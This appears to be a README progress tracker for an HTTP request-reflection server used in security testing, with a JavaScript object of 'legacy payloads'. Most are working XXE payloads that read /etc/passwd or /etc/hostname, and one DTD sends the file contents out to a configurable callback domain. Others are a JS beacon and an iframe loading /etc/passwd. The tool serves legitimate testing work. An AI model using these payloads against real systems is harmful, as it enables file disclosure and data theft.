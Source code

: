 ## HTML Module

### Progress Tracker

#### New Features - Response Formats

Support for HTTP request reflection in the following formats. Simply change the file extension in the request.

- [x] Plain Text (default, .txt)
- [x] HTML (.html, .html)
- [x] GIF (.gif)
- [x] JPEG (.jpg)
- [x] PNG (.png)
- [ ] MP4 (.mp4)
- [ ] XML (.xml)

#### New Features

- [ ] Let's Encrypt Auto Cert

#### Legacy Functionality

- [ ] robots.txt
- [ ] unfurly
- [ ] json
    - [ ] b64
- [ ] redirect
  - [ ] b64
- [ ] alert pattern with payload
- [ ] alert pattern
- [ ] slack hook
- [ ] basic auth
- [ ] breakfastbot
- [ ] allow origin *

#### Legacy Payloads


- [ ] sh
- [ ] dt
- [ ] evil.dtd
- [ ] ht
- [ ] sv
- [ ] logo

```js

const PAYLOADS = {
  'sh': {
    contentType: 'text/xml',
    content: `<?xml version="1.0" standalone="yes"?>\n<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\n<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\n<text font-size="16" x="0" y="16">&xxe;</text>\n</svg>`
  },
  'dt': {
    contentType: 'text/xml',
    content: `<?xml version="1.0" encoding="ISO-8859-1"?>\n <!DOCTYPE foo [  <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "http://${DEFAULT_DOMAIN}/${ALERT_PATTERN}/xxe-test" >]><foo>&xxe;</foo>`,
  },
  'evil.dtd': {
    contentType: 'text/xml',
    content: `<!ENTITY % payl SYSTEM "file:///etc/passwd">\n<!ENTITY % int "<!ENTITY % trick SYSTEM 'http://${DEFAULT_DOMAIN}:80/${ALERT_PATTERN}/xxe?p=%payl;'>">`
  },
  'js': {
    contentType: 'text/javascript',
    content: `var s = document.createElement("img");document.body.appendChild(s); s.src="//${DEFAULT_DOMAIN}/${ALERT_PATTERN}/s";`
  },
  'ht': {
    contentType: 'text/html',
    content: `<html><body><img src="/${ALERT_PATTERN}/static-lh" /><iframe src="file:///etc/passwd" height="500"></iframe></body></html>`
  },
  'sv': {
    contentType: 'image/svg+xml',
    content: `<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>`
  },
  'logo': {
    contentType: 'image/svg+xml',
    content: LOGO_SVG
  }
}
```